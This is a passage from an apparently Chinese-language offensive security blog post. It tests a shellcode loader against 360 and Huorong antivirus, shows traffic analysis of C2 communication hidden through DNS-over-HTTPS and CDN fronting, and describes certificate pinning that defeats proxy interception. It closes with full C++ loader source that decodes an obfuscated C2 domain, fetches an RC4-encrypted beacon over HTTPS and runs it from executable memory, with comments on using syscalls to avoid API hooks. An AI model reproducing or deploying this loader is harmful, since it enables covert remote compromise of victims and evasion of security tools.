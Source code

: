 ##  

##  **3\. 测试  **

###  **3.1 免杀测试  **

简易的loader（没做任何源码和API处理）可过最新版360和火绒。![]()![]()

###  **3.2 上线测试/流量分析**  

如下图所示，可以正常上线，且从本地查看的所有网络行为均为https，看不到域名解析的动作。![]()![]()![]()抓取全部流量分析，可以发现没有关联C2域名的DNS请求，下面的DNS请求是测试demo中内置的360的DoH域名服务器的域名，如果不想有这个解析过程的流量也可以直接硬编码域名服务器的IP地址（通常情况下没有必要）。![]()剩下的就全都是TLS加密流量了，对端IP是CDN节点。![]()而握手过程中JA3指纹也是OpenSSL库默认的，并没有什么特征。![]()

###

###  **3.3 证书替换测试  **

没开启代理的时候运行程序（为方便查看细节，下面图中开启了Debug信息输出），可以通过证书校验并成功请求域名然后下载加密的beacon，如下。![]()![]()![]()开启代理后，可以看到burp自作聪明的给伪造了个域名，但实际上我们的host写的是ip，因此直接就没有通过host校验，程序退出。![]()如果我们放宽一些限制，关闭DoH部分的证书校验，再使用域名来请求DoH服务器，可以看到程序到链接C2-CDN的时候会由于证书校验没有通过而被终止。![]()此时代理上也是没有抓到任何有效流量的。![]()

##

##  

* * *

##  

##  **4\. 简易版loader**  

##  最后看一下这个简易版loader的本体

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    # include <iostream># include "dns-over-https.h"  
    #pragma comment(lib, "dns-over-https-MD.lib")#pragma comment(lib, "dns-over-https-MT.lib")  
    void runShellcode(string shellcode_str) {// 这里的VirtualAlloc可以通过动态加载地址的方式隐藏API调用；// 如果想彻底避免R3 API Hook，也可以直接使用syscall；// 本文主要关注分离免杀和流量隐匿，故不做展开。    void* exec = VirtualAlloc(0, shellcode_str.size(), MEM_COMMIT, PAGE_EXECUTE_READWRITE);    if (exec != NULL) {        memcpy(exec, shellcode_str.c_str(), shellcode_str.size());        ((void(*)())exec)();    }}  
    string findValidDohServer() {    string tmpAddr = "";    while (TRUE) {        srand(time(NULL));        int randIndex = rand() % 16;        char dohServerList[16][256] = {            "208.67.222.222",            "208.67.220.220",            "1.0.0.1",            "1.1.1.1",            "8.8.8.8",            "8.8.4.4",            "185.222.222.222",            "185.184.222.222",            "223.5.5.5",            "223.6.6.6",            "120.53.53.53",            "1.12.12.12",            "101.199.113.208",            "36.99.170.86",            "180.163.249.75",            "175.24.154.66",        };        tmpAddr = dohServerList[randIndex];        if (isTCPPortOpen(tmpAddr, 443)) {            break;        }        else {            continue;        }            }    return "https://" + tmpAddr + "/dns-query";}  
    int main(int argc, char** argv){    string encodedDomainName = "P9g*****************************2tWD297e2AZ=";    string decodedDomainName = hex_decode(base64_decode(encodedDomainName));    string encodedPath = "PcSDP********************************AWB7cZo";    string decodedPath = hex_decode(base64_decode(encodedPath));    string key = "***********************";  
        string ipRes = secureGetHostByName(findValidDohServer().c_str(), (char*)decodedDomainName.data(), 443).addr;    string data = httpsGet((char*)decodedDomainName.data(), ipRes, decodedPath);    string shellcode_str = rc4_encrypt_decrypt(hex_decode(base64_decode(data)), key);  
        if (shellcode_str.size() > 0)        runShellcode(shellcode_str);  
        return 0;}  
    